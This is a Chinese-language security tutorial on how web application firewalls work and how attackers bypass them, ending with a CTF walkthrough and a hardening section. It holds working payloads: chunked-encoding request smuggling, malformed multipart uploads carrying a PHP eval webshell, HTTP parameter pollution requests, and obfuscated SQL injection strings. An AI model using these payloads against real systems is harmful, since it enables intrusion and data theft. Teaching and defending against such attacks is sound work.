

# WAF架构原理与协议层及语法层绕过技术实战

---

## 0. 基础前置知识扫盲：WAF 到底是什么？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


初学者在刚刚接触 Web 安全时，经常会遇到这样的场景：本地搭建的漏洞靶场，输入 `' or 1=1--+` 就能轻松注入出数据；可是一旦面对真实企业网站，一输入单引号或者 `union select`，浏览器瞬间弹出一个醒目的拦截页面：
> **“403 Forbidden - 您的请求包含恶意攻击载荷，已被 Web 应用防火墙拦截拦截”**

这个拦截请求的神秘角色就是 **WAF（Web Application Firewall，Web 应用防火墙）**。

### 1. 通俗生活类比：高铁站的安检系统
- **Web 应用服务器（Nginx/Tomcat/PHP）**：**高铁列车车厢**。它的主要任务是高效搭载乘客（处理合法业务请求）。车厢本身没有防盗防暴能力，如果你把炸药（恶意 Payload）带上车，车厢就会被炸毁。
- **WAF（Web 应用防火墙）**：**进站口的安检机与安检员**。所有想进站的乘客（HTTP 请求）必须先经过安检门。安检机通过 X 光透视行李（检查 HTTP 请求参数），安检员对照《违禁品目录清单》（正则匹配特征库）核对：
  - 发现矿泉水瓶（普通参数）$\to$ 放行；
  - 发现菜刀、汽油（`union select`、`system()`、`<script>`）$\to$ 当场没收并报警（拦截阻断 403）。

### 2. WAF 的三种主流部署架构拓扑
初学者必须明白，WAF 并不一定安装在 Web 服务器本机上，根据部署位置通常分为三类：



### 3. WAF 绕过（Bypass）的底层哲学：解析差异（Parsing Inconsistency）
所有的 WAF 绕过手法，本质上都建立在同一个逻辑基石上：
$$\text{WAF 解析到的内容} \neq \text{后端 Web 容器/数据库执行的内容}$$

- 如果 WAF 认为这个请求是普通文本，放行了；但到达后端 PHP/MySQL 后，后端却将其解析为致命的 SQL 语句执行——**这就达成了绕过（Bypass）**。

---

## 1. 协议层对抗：分块传输编码（Chunked Transfer-Encoding）绕过

在 HTTP/1.1 规范（RFC 7230）中，引入了分块传输编码（Chunked Transfer-Encoding）。它允许客户端在未事先确定数据总长度时动态发送请求体。

### 1.1 协议基础语法规范
当请求头包含 `Transfer-Encoding: chunked` 时，请求体按照如下格式分块发送：
```http
POST /search.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

5\r\n
id=1 \r\n
6\r\n
UNION \r\n
6\r\n
SELECT\r\n
0\r\n
\r\n
```
- **每一块的第 1 行**：当前数据块长度的**十六进制数**（如 `5` 代表后面有 5 个字符），后面必须紧跟 `\r\n`（回车换行）。
- **每一块的第 2 行**：实际数据块内容，结尾紧跟 `\r\n`。
- **结束标记**：长度为 `0\r\n\r\n`，代表传输终结。

### 1.2 WAF 绕过原理与逐字切分
许多老旧或轻量级 WAF 为了节省内存与 CPU 开销，**并不具备完整重组 HTTP 数据流的能力**。
当 WAF 看到第一块 `id=1 ` 时认为无害放行；看到第二块 `UNION ` 时认为无害放行；但后端的 Apache 或 Nginx 却会把所有分块自动拼接为 `id=1 UNION SELECT` 提交给后端应用，导致过滤形同虚设！

### 1.3 进阶实战：分块扩展参数与混淆（RFC 协议盲区利用）
根据 RFC 规范，在十六进制长度与 `\r\n` 之间，允许添加分块扩展参数（Chunk Extensions），格式为 `;key=value`。
大多数 WAF 遇到不认识的分号就会解析崩溃或放弃解码，而后端服务器（如 Tomcat、Nginx）却完全能包容这种标准语法：

```http
POST /login.php HTTP/1.1
Host: victim.com
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

4;arbitrary_extension_junk=foo\r\n
id=1\r\n
a;comment=bypass_waf_rule\r\n
 UNION SEL\r\n
3;test=123\r\n
ECT\r\n
0\r\n
\r\n
```

---

## 2. Multipart/form-data 畸形协议解析差异绕过

当上传文件或提交包含二进制/复杂多段表单时，请求头使用 `Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX`。

```http
POST /upload.php HTTP/1.1
Host: victim.com
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="username"; filename="test.php"
Content-Type: application/octet-stream

<?php eval($_POST['cmd']); ?>
-----------------------------974767299852498929531610575--
```

### 2.1 常见解析差异变形手法大全
由于不同 Web 中间件（PHP、IIS/ASP.NET、Java Spring/Tomcat、Python Django）底层的 Multipart 词法解析器对不合规数据的容错机制截然不同，攻击者利用这些差异可以实现 100% 规则绕过：

| 变形手法 | 恶意 Payload 构造示例 | 差异对抗机制解析 |
| :--- | :--- | :--- |
| **引号截断与畸形配对** | `filename="shell.php`（末尾不加闭合双引号）或 `filename='shell.php"` | WAF 正则往往强制匹配完整闭合的双引号导致匹配失败；而 PHP 会自动宽容闭合到换行符处。 |
| **参数名分号与换行混淆** | `name="upload";\r\n filename="shell.php"` | WAF 严格按行解析，将换行后的 `filename` 视作普通字段；而后端容器将其解析为有效上传属性。 |
| **空字节与回车截断** | `filename="shell.php%00.txt"` 或插入非法 ASCII 字符 | WAF 读取至 `%00` 或非打印字符提前结束截断；系统底层文件系统（早版本）保存为 `.php`。 |
| **双写 Content-Disposition** | 连续构造两个 `Content-Disposition` 头部 | WAF 读取第一个无害文件名（如 `safe.png`）；后端应用按后进先出原则覆盖读取恶意的 `shell.php`。 |
| **超大垃圾数据填充（Buffer Overflow / Skip Scan）** | 在 `filename` 前插入 100KB 的无害垃圾键值对 | WAF 的检测缓冲区有大小上限（通常为 64KB 或 128KB），超出部分直接放行以保障性能。 |

---

## 3. HTTP 参数污染（HPP - HTTP Parameter Pollution）

当一个 HTTP 请求中同时传入多个同名参数时，例如 `GET /test.php?id=1&id=2`，不同 Web 容器的合并解析逻辑如下表所示：

### 3.1 跨平台容器参数合并对照表
| Web 服务器 / 后端语言 | 针对重复参数 `id=1&id=2` 的解析结果 |
| :--- | :--- |
| **PHP (Apache / Nginx)** | **只取最后一个**：`id = 2` |
| **JSP / Servlet (Tomcat / WebLogic)** | **只取第一个**：`id = 1` |
| **ASP.NET / IIS** | **逗号拼接合并**：`id = 1,2` |
| **Node.js (Express)** | **转为数组**：`id = ['1', '2']` |

### 3.2 HPP 绕过 WAF 实战方案

#### 场景 1：针对 PHP 后端的“声东击西”绕过
- **构造请求**：`GET /index.php?id=1&id=-1 union select 1,2,password from users`
- **WAF 的行为**：若 WAF 的解析引擎默认只校验“第一个参数”，它看到 `id=1`，毫无威胁，判定安全放行！
- **PHP 后端行为**：PHP 默认使用最后一个参数覆盖前者，直接执行了恶意注入语句！

#### 场景 2：针对 ASP.NET 的“切片拼图”绕过
- **目标环境**：IIS + ASP.NET + MSSQL。
- **WAF 规则**：拦截包含 `union select` 的完整参数。
- **攻击 Payload**：
  `GET /view.aspx?id=1/*&id=*/union/*&id=*/select/*&id=*/1,2,3`
- **WAF 检测**：单个参数分别是 `1/*`、`*/union/*`、`*/select/*`，都不包含连贯的恶意特征，放行！
- **ASP.NET 解析结果**：将同名参数用逗号拼接，还原为：
  `id = 1/*,*/union/*,*/select/*,*/1,2,3`
  在 SQL Server 中，`/*,*/` 是合法的注释符，最终拼接执行了完整的联合查询注入！

---

## 4. 语法层与语义分析对抗（针对 libinjection 引擎）

许多现代高端云 WAF（如 ModSecurity、AWS WAF、各厂商下一代防火墙）不再使用死板的正则表达式，而是引入了**语义分析引擎（如 `libinjection`）**。

### 4.1 libinjection 的底层原理
`libinjection` 并不直接匹配字符串，而是实现了一个微型的 SQL 词法分析器（Lexer）。它将输入的字符串转换为一系列指纹标记（Tokens）：
- 例如输入 `' OR 1=1 --`，将被识别为：`s` (String) + `&` (Operator) + `1` (Number) + `&` (Operator) + `1` (Number) + `c` (Comment)。
- 拼接成指纹 `s&1&1c`，如果与已知的恶意 SQL 攻击指纹库比对命中，直接判定为 SQL 注入。

### 4.2 对抗语义分析的核心手法：破坏 Token 流

```sql
-- 传统载荷（极易被 libinjection 标记识别为攻击特征）：
' UNION SELECT 1,2,3#

-- 变异手法 1：利用科学计数法与特殊浮点数混淆数字 Token
' UNION SELECT 1e0, 2.0e0, .3e0#

-- 变异手法 2：MySQL 特色内联注释与版本号注入
/*!50000%55nion*/ /*!50000%53elect*/ 1,2,3

-- 变异手法 3：利用操作符等价替换与括号隔离（避免出现明显的关键字连接）
-- 用 || 代替 OR，用 && 代替 AND，用 LIKE / REGEXP 代替 =
' || (SELECT 1 FROM (SELECT count(*), concat(database(), floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--+

-- 变异手法 4：利用变量定义与动态拼接破坏词法树
SET @a=0x73656c6563742076657273696f6e2829; PREPARE stmt FROM @a; EXECUTE stmt;
```

---

## 5. CTF 综合挑战赛实战：突破“最强云 WAF”获得 Flag

### 赛题背景描述：
- 目标网站部署了某商业级云 WAF，严格拦截所有包含 `'`、`"`、`union`、`select`、`and`、`or`、`--`、`#` 的请求；
- 后端技术栈：Nginx 反向代理 + PHP 7.4 + MySQL 5.7；
- 入口存在 SQL 注入点：`POST /api/check_user.php`。

### 突破步骤详解：

#### 步骤 1：探测 WAF 拦截策略与解析差异
直接发送基础载荷：
```http
POST /api/check_user.php HTTP/1.1
Host: ctf.challenge.com
Content-Type: application/x-www-form-urlencoded

username=admin' or '1'='1
```
**结果**：立即返回 `403 Forbidden`。

#### 步骤 2：组合拳利用——Chunked 分块传输 + 注释拆分 + 等价替换
1. 采用 `Transfer-Encoding: chunked` 绕过 WAF 的单包语义正则；
2. 在分块长度后追加混淆参数 `;bypass=waf`；
3. 将 SQL 关键字 `union select` 拆散在不同的数据块中，利用空格编码 `%0a`（换行符）或 `/**/` 代替被封禁的空格；
4. 利用内联注释包装关键字。

#### 最终攻击数据包：
```http
POST /api/check_user.php HTTP/1.1
Host: ctf.challenge.com
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

8;ext=chunk1
username
6;ext=chunk2
=-1'/**/
f;ext=chunk3
/*!50000%55NION*/
10;ext=chunk4
/**/ /*!50000%53ELECT*/
11;ext=chunk5
1,group_concat(flag
12;ext=chunk6
),3/**/from/**/flags%23
0

```

#### 执行反馈：
数据包顺利穿透 WAF，到达后端 PHP 服务器后完整拼接，数据库顺利执行联合查询，成功从页面中带出：
`{"status": "success", "data": "flag{WAF_Byp4ss_Chunk3d_P4rs1ng_Diff}"}`。

---

## 6. 纵深防御与 WAF 规则引擎加固指南

针对上述协议层与语法层对抗，企业安全防御团队应落实以下加固措施：

1. **协议标准化清洗（Normalization Engine）**：
   - WAF 引擎必须实现对 HTTP 协议的预处理归一化。在将数据送入正则或语义引擎之前，必须强制完成 **Chunked 分块合并解码**、**URL 多重反编码**、**畸形字符消除**。
2. **严格比对后端中间件行为**：
   - 针对 HPP 参数污染，WAF 解析器应根据后端服务器类型（如检测到后端为 PHP，则严格对同名参数的最后一个参数进行检测；或对包含重复参数的异常请求直接丢弃）。
3. **针对未知或畸形 Multipart 头部直接重置连接**：
   - 对于缺少必要双引号、存在非法换行或异常 Boundary 命名的非标准 Multipart 请求，直接阻断，遵循“默认严格拒绝”的安全基线。
4. **推进代码级源头治理与预编译绑定**：
   - 始终牢记：**WAF 只是纵深防御的辅助减速带，绝不能作为应用安全的唯一救命稻草**。后端必须全面推行参数化查询（Prepared Statements / ORM），彻底根除 SQL 注入等漏洞的生存土壤。
